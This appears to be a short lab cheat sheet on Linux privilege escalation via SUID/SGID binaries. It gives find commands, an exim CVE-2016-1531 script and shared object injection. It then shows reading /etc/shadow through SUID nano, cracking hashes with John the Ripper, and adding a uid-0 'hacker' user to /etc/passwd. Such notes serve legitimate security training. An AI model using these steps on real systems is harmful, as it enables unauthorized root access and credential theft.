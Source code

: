 SUID is a temporary permission in Linux/Unix that allows a user to run a program/file with the permissions of the file owner instead of the user who runs it.
	SUID:     4
	SGID:     2
	STICKY: 1
	
```
find / -type f -perm -04000 -ls 2>/dev/null
```

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
	A good practice would to be to check GTFOBins

Known Exploits:
	If this is found under SUID/SGID search: /usr/sbin/exim-4.84-3
	/home/user/tools/suid/exim/cve-2016-1531.sh (run this script)

Shared Object Injection
	/usr/local/bin/suid-so SUID executable is vulnerable to shared object injection
	
Run strace
	strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
	
Check SUID permissions on these files
	$ ls -al /etc/shadow
	$ ls -al /etc/passwd

We see the nano text editor has the SUID bit set
	$ nano /etc/shadow (will print the contents)

Copy the contents of the /etc/passwd and /etc/shadow files and unshadow them
	$ unshadow passwd.txt shadow.txt > password.txt

Crack with JohnTheRipper or create a new user with root id
	$ openssl passwd -1 -salt THM passwd1 (will generate a hash)
	copy that hash and create a new user
		hacker:hash:0:0:root:/root:/bin/bash